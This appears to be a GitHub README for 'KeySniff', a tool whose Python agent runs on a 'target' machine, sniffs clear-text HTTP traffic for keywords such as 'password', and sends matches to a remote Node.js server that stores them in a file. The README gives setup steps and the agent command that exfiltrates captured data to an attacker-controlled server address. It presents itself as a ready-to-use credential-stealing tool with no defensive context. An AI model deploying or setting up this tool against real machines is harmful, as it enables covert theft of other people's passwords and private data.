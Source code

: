 # KeySniff
A multi threaded script for sniffing clear-text (HTTP) data and sending filtered keywords to a remote server.

KeySniff has two parts:
1. Agent - a python script that uses scapy to capture packets from a specific port and filter for a filtered keyword (like "password"). After finding the keyword, the agent will send it over HTTP to a remote server.
2. Server - a NodeJS server that waits for POST requests that contain a client's key for validating the source, and if the key is valid, the server stores the data from the client in a text file on the server.

# Usage

## On Server's Side
1. Install NodeJS on your server.
```bash
curl -sL https://deb.nodesource.com/setup_16.x -o /tmp/nodesource_setup.sh;
chmod +x /tmp/nodesource_setup.sh
/tmp/nodesource_setup.sh
sudo apt install nodejs -y
```

2. Clone the server repository and CD into the server directory.
```bash
git clone https://github.com/RedWhisperer/KeySniff.git
cd KeySniff/ServerSide
```

3. Install the server NPM dependencies:
```bash
sudo npm install
```

4. Initiating the server:
```bash
sudo node server.js --port [8080] --key [secret-key] --output [passowrds.txt]
```

## On Target's Side
1. Make sure that the target machine supports Python3 and install the dependencies:
```bash
sudo pip3 install scapy
```

2. Initiate the client with the correct configurations as arguments:
```bash
sudo python3 keySniff.py -p [PORT] -i [INTERFACE] -f [My-Keyword] -s http://[NODE-SERVER-IP]/upload -k [SECRET-KEY]
```

3. When the keyword will be captured, the agent will send it to the Node server and you'll see in the file.
